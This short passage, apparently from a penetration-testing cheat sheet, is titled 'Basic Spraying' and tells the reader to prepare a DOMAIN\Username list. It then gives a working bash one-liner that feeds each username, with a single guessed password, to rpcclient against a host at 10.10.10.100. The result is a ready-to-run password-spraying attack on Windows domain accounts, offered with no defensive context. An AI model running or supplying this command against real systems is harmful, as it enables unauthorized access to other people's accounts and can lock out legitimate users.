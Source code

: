 Basic Spraying

Create a username list formatted like the following:

DOMAIN\\Username

~~~bash
cat usernames.txt | while read line; do echo $line && rpcclient -U “$line%P@ssw0rd12” -c “getusername;quit” 10.10.10.100; done
~~~

